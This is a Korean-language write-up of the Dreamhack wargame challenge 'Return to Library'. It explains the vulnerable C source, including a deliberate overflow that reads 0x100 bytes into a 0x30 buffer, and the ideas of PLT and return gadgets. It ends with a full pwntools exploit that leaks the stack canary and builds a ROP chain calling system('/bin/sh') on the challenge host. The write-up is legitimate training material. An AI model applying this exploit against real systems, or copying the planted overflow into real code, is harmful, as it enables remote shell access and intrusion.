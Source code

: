 Return to Library 라이트업
====================

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt'");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```

코드를 분석해보면 

**1. "/bin/sh"를 바이너리에 추가**

* rtl.c 코드의 8번째 줄은 바이너리에 /bin/sh 문자열을 추가하기 위해 작성된 코드이다.
* ASLR이 적용되더라도 PIE(Position-Independent Executable)가 적용되지 않으면
  코드 세그먼트와 데이터 세그먼트의 주소는 고정된다.
   /bin/sh의 주소도 고정되어 있다.  

**2. PLT에 system 함수 추가**

* 17번째 줄은 PLT에 system 함수를 추가하기 위해 작성된 코드이다.
* system 함수는 라이브러리 함수이므로 PLT와 GOT는 라이브러리 함수 참조를 위해 사용되는 테이블들이다.
* 처음에는 system 함수의 주소가 resolve되지 않았을 때 함수의 주소를 구하고 실행하는 코드가 작성된다.
* **Return to PLT 공격**의 원리: ASLR이 걸려있더라도 PIE가 적용되어 있지 않다면 PLT의 주소는 고정되어 있다.
  따라서 PLT에 어떤 라이브러리 함수가 등록되어 있다면
   공격자는 해당 함수의 PLT 엔트리로 실행 흐름을 옮김으로써 해당 함수를 실행할 수 있다.
  무작위 주소에 매핑되는 라이브러리의 베이스 주소를 몰라도 이 방법을 통해 라이브러리 함수를 실행할 수 있다.   

**3. 버퍼 오버플로우**

`buf` 의 크기는 0x30 이지만 read 함수로 0x100 만큼을 입력받기 때문에 버퍼 오버플로우가 발생한다.

<img width="911" height="352" alt="image" src="https://github.com/user-attachments/assets/c8bc2486-92d9-4fe0-8a75-b90768e2ccf3" />

<img width="778" height="182" alt="image" src="https://github.com/user-attachments/assets/31d270f3-4c12-411c-9411-f28ee7ab0a96" />


disass main으로 확인해보면 buf 의 크기는 0x40     
하지만 이건 카나리가 포함된 크기이기 때문에 실제 buf 의 크기는 카나리를 제외한 0x38 이다. 


## 익스플로잇


* **카나리 우회:** 첫 번째 입력에서 카나리를 우회한다.
* **`rdi` 값을 "/bin/sh"의 주소로 설정 및 셸 획득:**
    * 카나리를 우회한 후, 두 번째 입력으로 반환 주소를 덮을 수 있다.
    * NX으로 인해 `buf`에 셸코드를 주입하고 직접 실행할 수는 없다.
    * **공격에 필요한 정보:**
        * "/bin/sh" 문자열의 주소 
        * `system` 함수의 주소
    * **목표:** `/bin/sh`를 호출하여 셸을 획득하기
      x86-64 호출 규약에 따르면 `system("/bin/sh")`은 `rdi` 레지스터에
      `"/bin/sh"` 주소가 있는 상태에서 `system` 함수를 호출하는 것과 같다.
    * **Return-Oriented Programming (ROP) 활용:** `/bin/sh`의 주소를 알고
      `system` 함수를 호출할 수 있으므로
       `/bin/sh`의 주소를 `rdi` 값으로 설정할 수 있다면
       `system("/bin/sh")`을 실행할 수 있다. 이를 위해 **리턴 가젯**을 활용해야 한다.


### 리턴 가젯

<img width="687" height="87" alt="image" src="https://github.com/user-attachments/assets/ef210971-58f3-4e5f-a964-d35db3c53de6" />

return gadget이란 ret 명령어로 끝나는 어셈블리 코드 조각을 의미한다. ROPgadget 명령어를 사용해서 위와 같이 가젯을 구할 수 있다.

이 문제에서는 rdi의 값을 `/bin/sh`의 주소로 설정하고 system 함수를 호출해야 한다. 

```
addr of ("pop rdi; ret")   <= return address
addr of string "/bin/sh"   <= ret + 0x8
addr of "system" plt       <= ret + 0x10
```

리턴 가젯을 사용해서 반환 주소와 이후의 버퍼를 이렇게 덮으면 pop rdi로 rdi의 주소를 `/bin/sh` 의 주소로 설정하고 이어지는 ret으로 system 함수를 호출할 수 있다. 




### 다른 주소 확인

<img width="772" height="73" alt="image" src="https://github.com/user-attachments/assets/bc315f97-cf5e-401c-aa8c-11d5173b2915" />

system 함수 주소 확인

<img width="1082" height="260" alt="image" src="https://github.com/user-attachments/assets/fc33e7fd-a9bd-438e-a344-98df167db1f0" />

ret 확인


### 익스플로잇 코드


```python
from pwn import *
context.log_level = 'debug'
context(arch='amd64', os='linux')

p = remote("host1.dreamhack.games", 21518)

p.recvline('Buf: ')
dummy = b'A' * 0x39
print(dummy)
p.send(dummy)
p.recvuntil(dummy)
canary_leak = b'\x00' + p.recvn(7)

canary = u64(canary_leak)
print('canray : {}'.format(hex(canary)))

ret = 0x400596
pop_rdi = 0x400853
binsh = 0x400874
system = 0x4005d0

payload = b'A' * 0x38
payload += p64(canary)
payload += b'A' * 0x8
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

# pause()

p.recvuntil('Buf: ')
p.send(payload)

p.interactive()
```




### 실행 결과


<img width="598" height="152" alt="image" src="https://github.com/user-attachments/assets/28597c4f-37d3-4379-a3ce-3edbf5dd6fae" />


